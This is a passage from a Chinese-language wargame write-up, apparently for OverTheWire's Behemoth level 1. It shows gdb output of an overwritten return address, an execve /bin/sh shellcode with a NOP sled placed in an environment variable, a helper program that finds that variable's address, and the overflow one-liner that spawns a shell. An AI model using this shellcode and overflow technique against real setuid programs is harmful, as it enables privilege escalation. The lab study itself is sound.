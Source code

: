 ```
   │0x8048477 <main+44>     mov    $0x0,%eax                                                                          │
   │0x804847c <main+49>     leave                                                                                     │
   │0x804847d <main+50>     ret                                                                                       │
   │0x804847e               xchg   %ax,%ax                                                                            │
   └──────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘
native process 16351 In: main                                                                      L??   PC: 0x8048467 
0x08048467 in main ()
(gdb) x/16wx $ebp
0xffffd5a8:     0x41414141      0x42424242      0x00000000      0xffffd644
0xffffd5b8:     0xffffd64c      0x00000000      0x00000000      0x00000000
0xffffd5c8:     0xf7fc5000      0xf7ffdc0c      0xf7ffd000      0x00000000
0xffffd5d8:     0x00000001      0xf7fc5000      0x00000000      0x9ee76be0
(gdb) x/8wx $ebp
0xffffd5a8:     0x41414141      0x42424242      0x00000000      0xffffd644
0xffffd5b8:     0xffffd64c      0x00000000      0x00000000      0x00000000
(gdb) 

```
ebp+4也就是main函数返回地址的位置已经被覆盖了。

还是用环境变量来写shellcode，因为不确定gdb中的栈地址和程序运行时的栈地址是不是一样的。秘制[shellcode](https://gist.github.com/Zhang1933/0d1c7b69af48483832eb2d6b22de287e)献上。

```bash
export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')
```

加了点雪橇,然后写一个程序找到环境变量地址,在文件`find_add.c`中：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

```bash
behemoth1@behemoth:~$ cd /tmp
behemoth1@behemoth:/tmp$ mktemp -d 
/tmp/tmp.4Dzgraq6pX
behemoth1@behemoth:/tmp$ cd tmp.4Dzgraq6pX
behemoth1@behemoth:/tmp/tmp.4Dzgraq6pX$ gcc -m32 find_add.c -o find_add
behemoth1@behemoth:/tmp/tmp.4Dzgraq6pX$ ./find_add SHELLCODE
SHELLCODE is at 0xffffde26
behemoth1@behemoth:/tmp/tmp.4Dzgraq6pX$ cd /behemoth
behemoth1@behemoth:/behemoth$ (python -c 'print 71 * "\x90" + "\x26\xde\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.

ls -la
total 80
drwxr-xr-x  2 root      root      4096 Aug 26  2019 .
drwxr-xr-x 27 root      root      4096 Aug 26  2019 ..
-r-sr-x---  1 behemoth1 behemoth0 5900 Aug 26  2019 behemoth0
-r-sr-x---  1 behemoth2 behemoth1 5036 Aug 26  2019 behemoth1
```